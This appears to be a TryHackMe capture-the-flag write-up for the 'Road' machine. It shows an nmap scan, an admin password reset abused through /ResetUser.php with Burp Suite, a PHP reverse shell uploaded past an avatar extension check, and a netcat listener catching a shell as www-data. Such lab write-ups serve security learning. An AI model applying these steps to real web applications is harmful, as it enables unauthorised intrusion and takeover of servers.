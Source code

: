 # Road
```sh
export IP=machine_ip
```
# Information Gathering:

```sh
nmap -A -sC -sV $IP
```
```sh
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-05 20:57 CEST
Nmap scan report for 10.10.0.79
Host is up (0.086s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e6:dc:88:69:de:a1:73:8e:84:5b:a1:3e:27:9f:07:24 (RSA)
|   256 6b:ea:18:5d:8d:c7:9e:9a:01:2c:dd:50:c5:f8:c8:05 (ECDSA)
|_  256 ef:06:d7:e4:b1:65:15:6e:94:62:cc:dd:f0:8a:1a:24 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Sky Couriers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We got some services running 80 http 22 ssh

![Screenshot_25](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/55ac3812-1da6-47f6-be51-f3b26915689d)

I found /ResetUser.php  so i was able to changed admin password in burpsuite  like this : 

![Screenshot_27](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/39a6fd6f-d2c8-44c9-8775-2821fe690832)

By doing this i found upload avatar in the Profile 

![Screenshot_26](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/6e2bedaf-595b-4c9e-b760-7e7e3d2ce203)

That might get us to manipulate the php-reverse-shell extension to be .php instead of .jpg :..

![Screenshot_28](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/ccfb0248-3d53-49fd-8313-411d09fe0cd9)

this is the dir that has our revshell i found it in the admin  /profile.php  source code 

![Screenshot_29](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/cb24afb2-0e7a-48e7-ac78-6ea2f4e66395)

```sh
nc -lvnp 4444             
listening on [any] 4444 ...
connect to [10.8.46.178] from (UNKNOWN) [10.10.0.79] 37742
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:02:45 up  1:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
